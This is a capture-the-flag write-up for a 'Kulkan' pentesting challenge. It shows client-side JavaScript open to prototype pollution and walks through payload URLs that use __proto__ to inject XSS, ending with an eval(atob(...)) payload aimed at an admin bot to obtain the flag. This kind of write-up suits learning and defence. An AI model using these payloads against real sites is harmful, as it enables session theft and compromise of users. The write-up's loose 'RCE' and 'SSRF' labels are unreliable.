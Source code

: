 # Kulkan (500 points) - Pentesting

![Alt text](_images/image.png)

This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 
![Alt text](_images/image-1.png)

This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

First payload from @ysl to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```

![Alt text](_images/image-2.png)

So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x onerrpr=alert(1)>"}}
```

![Alt text](_images/image-3.png)

The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x id=yourencodedpayloadwithmaliciouslink onerror=eval(atob(this.id))>"}}
```
![Alt text](_images/image-4.png)

There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.

![Alt text](_images/image-5.png)

And we got the flag

![Alt text](_images/image-6.png)

**FLAG:** EKO{Kulk4n__Quetz4}
